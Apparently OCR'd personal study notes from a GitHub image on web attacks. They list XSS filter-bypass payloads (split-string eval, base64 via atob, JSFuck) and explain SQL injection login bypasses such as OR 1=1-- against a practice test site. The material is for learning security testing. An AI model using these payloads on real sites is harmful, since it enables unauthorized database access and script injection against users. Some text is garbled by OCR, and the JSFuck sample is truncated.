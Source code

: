 o	alert`1`
o	print``
o	prompt``
o	confirm``
5.	If only pooping up functions not working, then
o	Only works inside java script.
•	eval(‘ale’+’rt’)
•	eval(‘pro’+’mpt’)
•	eval(‘pr’+’int’)
•	eval(‘conf’+’irm’) 
6.	If eval(’any’+’thing’) also blacklisted, then
•	<script> eval(atob(“<Base64 encoded>”))</script>
•	Examples:
•	'ale'+'rt' ==Base64== J2FsZScrJ3J0Jw==
o	<script>eval(atob(“J2FsZScrJ3J0Jw==”))</script>
7.	If eval, atob and other pooping up functions blacklisted
•	Go to JSFuck, put payload (alert(2)), Encode, copy the encoded code, put in between <script> </script>
o	Example: <script><encode></script>
o	<script>[][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])[+[]]][([][(![]+[])[+[]]+(![]+[])[!+[]+!+[]]+(![]+[])[+!+[]]+(!![]+[])</script>


 
*ATTACK*

SQL Injection | GitHub | Dorks List
•	A technique that attackers use to gain unauthorized access to a web application database by adding a string of malicious code to a database query.
•	Client Side (Front End) + Server Side (Backend) = Webapp
o	Client Side: HTML, CSS, Javascript
o	Server Side: PHR SQL, MYSQL
•	example.com/login
o	username: $username
o	password: $password
o	SELECT * FROM users WHERE username=$username AND password=$password
o	Database > Tables > columns > data
id	Username	Password
1.	Admin	admin
2.	John	Don123
o	AND I OR
	True AND True == True
	True AND False == False
	False AND True == False
	False AND False == False
	True OR True == True
	True OR False == True
	False OR True == True
	False OR False == False
o	Payloads:
	John” OR 1=1-- 
•	Here as OR condition one of value need to be true I.e 1=1 that mean it always 1 equal 1 means condition it true
•	Then dash, dash, space bcz its means comment like // in JS to it makes after – will comment	
•	SELECT * FROM users WHERE username=”John” OR 1=1-- ” AND password=”Don123”
	John”-- 
•	Use if you know the username
•	That means its gives username john and after that everything is comment and condition
•	SELECT * FROM users WHERE username=”John”-- ” AND password=”Don123”
o	VulnWeb.com
	Payloades: Put in Username and Password
•	xyz” or 1=1-- 
•	xyz’ or 1=1--
•	test’ or 1=1--
•	admin' 